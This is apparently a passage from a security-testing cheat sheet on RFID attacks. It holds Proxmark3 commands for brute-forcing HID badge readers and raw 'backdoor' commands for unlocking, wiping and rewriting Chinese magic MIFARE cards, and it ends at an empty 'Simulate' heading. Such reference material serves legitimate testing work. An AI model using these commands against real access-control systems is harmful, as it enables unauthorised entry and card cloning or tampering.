 #### Bruteforce an HID reader

```powershell
pm3 --> lf hid brute a 26 f 224
pm3 --> lf hid brute v a 26 f 21 c 200 d 2000

Options
---
a <format>        :  26|33|34|35|37|40|44|84
f <facility-code> :  8-bit value HID facility code
c <cardnumber>    :  (optional) cardnumber to start with, max 65535
d <delay>         :  delay betweens attempts in ms. Default 1000ms
v                 :  verbose logging, show all tries
```

### HF - Mifare DESFire

> No known attacks yet ! Unencrypted sectors can be read, also you can try to look for default keys. All MIFARE cards are prone to relay attack.

*   Mifare DESFire [MF3ICD40](https://arstechnica.com/information-technology/2011/10/researchers-hack-crypto-on-rfid-smart-cards-used-for-keyless-entry-and-transit-pass/): uses Triple DES encryption, product discontinued.

    ```powershell
    It requires the attacker to have the card itself, an RFID reader, and a radio probe. 
    Using differential power analysis, data is collected from radio frequency energy 
    that leaks out of the card (its “side channels”).
    ```
* Mifare DESFire EV1 : the challenge is done with AES or 3DES.
* Mifare DESFire EV2

### HF - Mifare Ultra Light

* Ultralight C (3DES authentication)
* Ultralight EV1
* NTAG2

#### Chinese backdoor

```powershell
pm3 --> hf 14a raw -p -b 7 40
pm3 --> hf 14a raw -p 43
pm3 --> hf 14a raw -p -c a20059982120

0x40, init backdoor mode
0x41, wipe fills card with 0xFF
0x42, fills card with 0x00
0x43, no authentication needed.  issue a 0x3000 to read block 0, or write block.
0x44, fills card with 0x55
```

#### Simulate
